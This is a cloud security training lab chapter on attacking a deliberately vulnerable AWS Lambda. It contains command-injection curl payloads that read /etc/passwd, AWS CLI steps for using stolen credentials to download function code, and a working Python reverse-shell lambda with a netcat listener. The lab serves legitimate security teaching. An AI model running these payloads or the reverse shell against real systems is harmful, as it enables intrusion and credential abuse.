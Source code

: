 # Attacking lambda endpoints

## Introduction

AWS Lambda is a compute service that lets you run code without provisioning or managing servers. AWS Lambda executes your code only when needed and scales automatically, from a few requests per day to thousands per second. You pay only for the compute time you consume - there is no charge when your code is not running.

AWS Lambda, essentially are short lived servers that run your function and provide you with output that can be then used in other applications or consumed by other endpoints.

## What are we going to cover?

This chapter covers a very popular attack that can occur on a Lambda function that has been weakly written.

User input should never be used directly into server side functions without sanitizing the user data first. This attack is a classic example of what can go wrong when user data is mixed with server side commands.

## Steps to setup lab

Run the following script on the student VM to bring up the target lambda function

    deploy-awslambda

The output of this script will be the API gateway endpoint that will be attacked. Record this output.

> If you see any error, please inform one of the trainers

## Steps to attack

### OS command Injection in Lambda

From the attacker VM, run the following commands. Replace this with your own API endpoints

    curl "https://API-endpoint/api/stringhere"

The output shows that the lambda is setup to access a string via an API Gateway and produces the MD5sum of the string being passed.

The Lambda has a command injection vulnerability. The injection point is the string input in the URL. For example, the `hello` string in the following URL

    curl "https://API-endpoint/api/hello"

A quick check with semi colons (as seen in the response) shows that the `md5sum` command needs to be consumed by a dangling linux command. Something on the following lines will ensure that `hello` is consumed by `echo -n`, the `id` command will execute and display the output while `w` is used to consume the `md5sum` to ensure proper output.

    curl "https://API-endpoint/api/hello;id;w"

To run commands that have spaces in them, use URL encoding

    curl "https://API-endpoint/api/hello;cat%20%2fetc%2fpasswd;w"

![Lambda OS injection](images/ec2-lambda-osinject.png)

### Accessing the source of Lambda using stolen creds

When AWS credentials are stolen and added to AWS CLI via `aws configure`, you can run the following commands to attempt a download of the lambda code itself. This is useful if you have managed to obtain credentials from a different user/role/temporary tokens etc. and would want to see what lambda functions are running in the target environment.

These steps assume you have added the stolen credentials to a new profile called `stolen`

List lambda functions currently available

    aws lambda list-functions --profile stolen

Get download link for the lambda function that interests you

    aws lambda get-function --function-name <FUNCTION-NAME> --profile stolen

Once the code is downloaded, you can review the code for static sensitive information disclosure and other code vulnerabilities that you can exploit using whatever lambda triggers are in use.

### Gaining a reverse shell (Demo)

Sometimes lambda functions can be made to execute longer by changing its configuration.

We can use a vulnerable lambda that executes for longer intervals of time to gain a reverse shell to explore the lambda environment.

The following app.py file can be deployed as a lambda function to obtain a reverse shell

    from chalice import Chalice

    app = Chalice(app_name='reverseshell')

    @app.route('/{ip}')

    def index(ip):
        import socket,subprocess,os
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip,9090))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/bash","-i"])
        return {"msg":"Connection sent to :" + str(ip)}

Commands for the demo

    chalice new-project revshell
    
    cd revshell

Remove the default app.py inside the folder and replace with the app.py containing the lambda function that will initiate a reverse shell

    chalice deploy

On the server that will be the listener, run netcat to listen to an incoming connection

    nc -lvp 9090

This port number (9090) and the IP should be accessible to the Lambda function.

Once the API Endpoint is available, pass the IP you want it to connect back to (hardcoded port 9090)

    curl "https://API-endpoint/PUBLIC-IP-LISTENER"

From the shell that is now estabilished, explore the environment of the lambda function

    ls -ltra /

    printenv

![Lambda reverse shell](images/aws-lambda-rev-shell.png)

## Additional references
- [Getting started](https://docs.aws.amazon.com/lambda/latest/dg/getting-started.html)
- [Lambda functions made easy](https://codeburst.io/aws-lambda-functions-made-easy-1fae0feeab27)
- [Lambhack](https://github.com/wickett/lambhack)
- [AWS vulnerable lambda](https://github.com/torque59/AWS-Vulnerable-Lambda)
- [Hacking Serverless runtimes](https://www.blackhat.com/docs/us-17/wednesday/us-17-Krug-Hacking-Severless-Runtimes.pdf)
- [Gone in 60 milliseconds](https://www.youtube.com/watch?v=YZ058hmLuv0)
- [Build and deploy a serverless REST API using chalice](https://aws.amazon.com/blogs/developer/build-and-deploy-a-serverless-rest-api-in-minutes-using-chalice/)
- [OWASP Top 10 Serverless](https://owasp.org/www-pdf-archive/OWASP-Top-10-Serverless-Interpretation-en.pdf)
- [Client-Side Keys, IAM Policies and a Vulnerable Lambda](https://speakerdeck.com/riyazwalikar/raining-shells-in-aws-by-chaining-vulnerabilities?slide=38)